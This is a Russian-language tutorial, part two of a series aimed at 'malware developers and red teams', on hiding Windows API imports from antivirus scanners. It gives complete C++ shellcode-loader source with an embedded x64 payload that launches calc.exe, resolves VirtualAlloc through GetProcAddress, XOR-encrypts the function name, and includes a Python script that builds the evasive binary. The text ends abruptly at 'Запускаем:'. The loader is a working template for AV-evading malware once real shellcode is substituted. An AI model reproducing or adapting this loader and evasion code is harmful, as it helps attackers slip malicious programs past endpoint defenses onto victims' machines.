\newpage
\subsection{Обход антивирусов для простого вредоносного ПО на C++ - часть 2}

﷽

{width="80%"}    

Это вторая часть руководства, в первую очередь, я рекомендую изучить [первую](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) часть.    

В этом разделе мы изучим обфускацию вызовов функций.    
Что это такое? Почему разработчикам вредоносного ПО и специалистам red team стоит изучить эту технику?    

Давайте рассмотрим наш `evil.exe` из первой части на VirusTotal:    

[https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection](https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection)    

и перейдём на вкладку "детали":    

{width="80%"}    

Каждый PE-модуль, такой как `.exe` и `.dll`, обычно использует внешние функции. Когда программа запускается, она вызывает все функции, реализованные во внешних DLL, которые отображаются в память процесса, чтобы сделать их доступными для кода процесса.    

Антивирусные движки анализируют большинство используемых внешних DLL и функций. Это может быть хорошим индикатором того, является ли бинарный файл вредоносным или нет. Таким образом, антивирусный движок анализирует PE-файл на диске, проверяя его таблицу импортированных адресов.    

Конечно, этот метод не идеален и может давать ложные срабатывания, но он работает в некоторых случаях и широко используется антивирусами.    

Что же мы, как разработчики вредоносного ПО, можем с этим сделать? Здесь на помощь приходит обфускация вызовов функций. **Обфускация вызовов функций** - это метод скрытия DLL и внешних функций, которые будут вызываться во время выполнения. Для этого можно использовать стандартные функции Windows API: `GetModuleHandle` и `GetProcAddress`. Первая возвращает дескриптор указанной DLL, а вторая позволяет получить адрес необходимой функции, экспортируемой из этой DLL.    

Приведу пример. Допустим, ваша программа должна вызвать функцию `HackAndWin`, экспортируемую в DLL `hacker.dll`. Сначала вызывается `GetModuleHandle`, затем `GetProcAddress` с аргументом `HackAndWin`, и в результате мы получаем адрес этой функции:
```cpp
hack = GetProcAddress(
    GetModuleHandle("hacker.dll"), "HackAndWin");
```

Что здесь важно? Если вы скомпилируете свой код, компилятор не включит `hacker.dll` в таблицу импортов. Таким образом, антивирусный движок не сможет обнаружить её во время статического анализа.    

Давайте рассмотрим, как мы можем практически использовать эту технику. Возьмём исходный код нашего первого вредоносного ПО из [части 1](http://127.0.0.1:4000/tutorial/2021/09/04/simple-malware-av-evasion.html):

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

Итак, этот код содержит самую простую логику для выполнения payload. В данном случае, для упрощения, это не зашифрованный payload, а обычный.

{width="80%"}    

Скомпилируем его:    

{width="80%"}    

и запустим, чтобы убедиться, что он работает:    

{width="80%"}    

Теперь давайте посмотрим таблицу импортируемых адресов (IAT).    

```bash
objdump -x -D evil.exe | less
```

{width="80%"}    

Как видите, наша программа использует `KERNEL32.dll` и импортирует все эти функции:    

{width="80%"}    

и некоторые из них используются в нашем коде:    

{width="80%"}    

Теперь давайте избавимся от `VirtualAlloc`. Как это сделать?
Сначала находим объявление `VirtualAlloc`:    

{width="80%"}    

и убеждаемся, что оно реализовано в `Kernel32.dll`:    

{width="80%"}    

Создадим глобальную переменную `VirtualAlloc`, но это должна быть указатель `pVirtualAlloc`. Эта переменная будет хранить адрес `VirtualAlloc`:    

{width="80%"}    

Теперь получим этот адрес через `GetProcAddress` и заменим вызовы `VirtualAlloc` на `pVirtualAlloc`:    

{width="80%"}    

Скомпилируем заново и проверим таблицу импортов:    

```bash
objdump -x -D evil.exe | less
```

{width="80%"}    

Теперь `VirtualAlloc` отсутствует в таблице импортов.    

Выглядит хорошо, но есть нюанс. Если мы извлечем все строки из нашего бинарного файла, мы увидим, что строка `VirtualAlloc` все еще там. Давайте проверим.    

```bash
strings -n 8 evil.exe
```

{width="80%"}    

Как видите, она там. Причина в том, что мы используем строку в открытом виде при вызове `GetProcAddress`.    

Что мы можем с этим сделать?    
Можно зашифровать строку. Мы можем использовать XOR-шифрование, как делали ранее. Давайте реализуем это.    

Сначала добавим функцию XOR в исходный код `evil.cpp`:    

{width="80%"}    

Для этого нам понадобится ключ шифрования и строка. Определим строку как `cVirtualAlloc` и обновим код:    

{width="80%"}    

Добавим дешифрование XOR:    

{width="80%"}    

Итак, финальная версия нашего вредоносного кода:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
    LPVOID lpAddress, 
    SIZE_T dwSize, 
    DWORD flAllocationType, 
    DWORD flProtect
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

И используем скрипт Python для шифрования XOR нашего имени функции и замены:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 
'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += " -o evil.exe -s -ffunction-sections"
    cmd += " -fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += " -static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

Скомпилируем и проверим.
```bash
strings -n 8 evil.exe | grep "Virtual"
```

{width="80%"}    

Как видите, `VirtualAlloc` больше нет в списке строк.
Вот так можно обфусцировать любую функцию в вашем коде. Это может быть `VirtualProtect`, `RtlMoveMemory` и т. д.

Запускаем:    

